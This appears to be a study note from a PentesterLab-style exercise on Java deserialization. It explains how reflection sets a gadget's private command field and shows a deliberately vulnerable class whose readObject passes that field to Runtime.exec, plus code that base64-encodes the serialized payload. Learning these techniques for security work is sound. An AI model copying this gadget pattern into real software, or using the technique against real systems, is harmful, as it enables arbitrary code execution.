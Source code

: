 ```yaml
---
title: "- Java Security - Basics"
tags:
  - Java Sec
  - Web
  - Code Review
---
```


# Java deserialization Basics

# Java Serialize -  02

The technique involving reflection in this context is integral to accessing and modifying the private field **`command`** of the **`AnotherClass`** object.

Reflection in Java allows code to inspect and manipulate classes, interfaces, fields, and methods at runtime. In this exploit:

1. **Accessing Private Field**: The **`Field`** object **`commandField`** is obtained using reflection. This allows access to the private field **`command`** of the **`AnotherClass`** class, which is otherwise inaccessible directly due to its visibility modifier.
2. **Setting Field Value**: The **`setAccessible(true)`** method is called on **`commandField`** to enable access to the private field. Then, the **`set()`** method is used to modify the value of the **`command`** field in the **`gadget`** object. This allows us to inject the desired command to be executed upon deserialization.
3. **Executing Arbitrary Code**: By setting the **`command`** field to the desired command ,we leverage reflection to manipulate the internal state of the object. 
4. During deserialization, when the **`readObject()`** method is invoked, the injected command is executed via **`Runtime.getRuntime().exec()`**, enabling arbitrary code execution on the target system.

```java
ByteArrayOutputStream bos = new ByteArrayOutputStream();   
ObjectOutputStream os = new ObjectOutputStream(bos);   
AnotherClass gadget = new AnotherClass("...");   
os.writeObject(gadget);   
String base64 = Base64.getEncoder().encodeToString(bos.toByteArray());   
System.out.println(base64);[...]
```

source code : 

We have a clear target : **readObject(ObjectInputStream stream)**

```java
package com.pentesterlab;   
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;
         
public class AnotherClass implements Serializable {
  
  private String command;
             
  private void readObject(ObjectInputStream stream) throws Exception {
    stream.defaultReadObject();
    Runtime.getRuntime().exec(this.command);
  }  
}
```
